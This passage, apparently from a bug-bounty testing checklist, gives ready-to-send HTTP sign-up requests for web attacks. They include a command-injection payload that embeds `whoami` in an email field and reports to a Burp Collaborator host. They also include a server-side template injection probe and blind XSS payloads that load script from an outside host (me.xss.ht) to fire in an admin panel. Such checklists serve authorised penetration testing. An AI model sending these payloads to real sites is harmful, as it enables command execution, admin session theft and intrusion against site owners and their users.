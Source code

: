     - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Origin: https://www.company.com
        Content-Length: Number
        firstname=I&lastname=am&email=me@`whoami`.id.collaborator.net&password=********&captcha=Random&token=CSRF`
    - Note: Use Burp Collaborator and monitor for back-end information or internal IPs.
    - [ ] Done

27. **Try To Insert <% In Username, First Name OR Last Name, So If <% Reflected In Email Body Try To Inject <%= 7 * 7 %> To Get SSTI:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        firstname={{7*7}}&lastname={{7*7}}&username={{7*7}}
        &email=me&password=*****&captcha=Random&token=CSRF`
    - Note: Test these payloads in first name, last name, and username fields.
    - [ ] Done

28. **Try To Set Your Name, First Name, Last Name etc As Blind XSS e.g. "><script src=//me.xss.ht></script> To Get BXSS In Admin Panel:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Content-Length: Number
        firstname="><script src=//me.xss.ht></script>
        &lastname="><script src=//me.xss.ht></script>&
        email=me@gmail.com&password=**************&captcha=Random
        &token=CSRF`
    - Note: Test in first/last names, password fields, and user-agent headers.
    - [ ] Done

29. **Try To Set Your Name, First Name, Last Name etc As Blind XSS e.g. <img src="//me.xss.ht"> To Get BXSS In Admin Panel:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Content-Length: Number
        firstname=<img src="//me.xss.ht">
        &lastname=<img src="//me.xss.ht">&
        email=me@gmail.com&password=**************&captcha=Random
        &token=CSRF`
    - Note: Test in first/last names, password fields, and user-agent headers.
    - [ ] Done
